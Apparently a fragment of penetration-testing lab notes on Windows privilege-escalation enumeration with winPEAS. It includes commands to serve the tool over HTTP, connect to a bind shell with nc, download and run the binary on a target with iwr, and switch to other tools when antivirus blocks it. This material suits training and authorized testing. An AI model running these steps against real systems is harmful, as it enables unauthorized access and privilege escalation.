 - [If there is no color use this:]
	- `REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1`
- If blocked by AV --> use Seatbelt or JAWS
		- google **compiled seatbelt github download**
	- package = peass
	- 
- Example:
		- Copy 64-bit binary of winPEAS to home directory and serve it with Python server
			- ```cp /usr/share/peass/winpeas/winPEASx64.exe .```
			- ```python3 -m http.server 80```
		- Connect to bind shell
			- `nc 192.168.50.220 4444`
		- powershell
		- Grab the file from host using iwr Cmdlet
			- ```iwr -uri http://192.168.45.204/winPEASx64.exe -Outfile winPEAS.exe```
			- ```.\winPEAS.exe```
		- Check  transcript history if winPEAS missed
			- C:\Users\Public
		- Manually check in case winPEAS misses stuff